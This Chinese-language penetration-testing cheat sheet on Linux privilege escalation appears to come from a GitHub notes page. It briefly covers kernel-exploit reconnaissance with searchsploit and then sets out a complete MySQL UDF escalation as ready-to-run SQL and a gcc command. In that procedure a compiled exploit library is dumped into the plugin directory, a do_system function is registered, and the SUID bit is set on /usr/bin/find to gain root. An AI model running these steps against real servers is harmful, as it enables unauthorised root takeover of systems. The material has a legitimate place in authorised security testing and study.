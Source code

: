 * **Linux capabilities**
  * 


### 【Linux内核提权】

> 使用系统漏洞，或者其他直接提权到root或者管理员权限

* **使用内核系统漏洞垂直提权**
  * 1）首先使用lsb_release -a 查看机器发行版本，如centos rhel等等
  * 2）利用searchsploit查找可用内核提权脚本
  * 3）找不出后使用uname -a查看系统内核版本，进一步缩小范围


### 【Linux MySQL 提权】

* **使用mysql中的配置不当提权**
  
  * 1）是否可以自定义导出路径，secure_file_priv为空
  ```sql
  show variables like '%secure%';
  ```
  
  * 2）查看当前数据库用户权限
  ```sql
  select * from mysql.user where user = substring_index(user(),'@',1)\G;
  ```
  
  * 3）查看mysql安装位置
  ```sql
  show variables like '%basedir%';
  ```
  
  * 4）搜索UDF动态库漏洞利用程序，并在漏洞利用数据库中将其命名为“1518.c”，exploit-1518

  * 5）将c文件编译好
  ```bash
  gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.c -lc 
  ```
  
  * 6）创建一个表
  ```sql
  create table foo(line blob);
  ```
  
  * 7）写入udf文件内容
  ```sql
  insert into foo values(load_file('/tmp/1518.so'));
  ```
  
  * 8）将udf文件内容导入
  ```sql
  select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
  ```
  
  * 9）创建自定义函数udf
  ```sql
  create function do_system returns integer soname '1518.so';
  ```
  
  * 10）给find赋予超级权限
  ```sql
  select do_system('chmod u+s /usr/bin/find'); 
  ```
  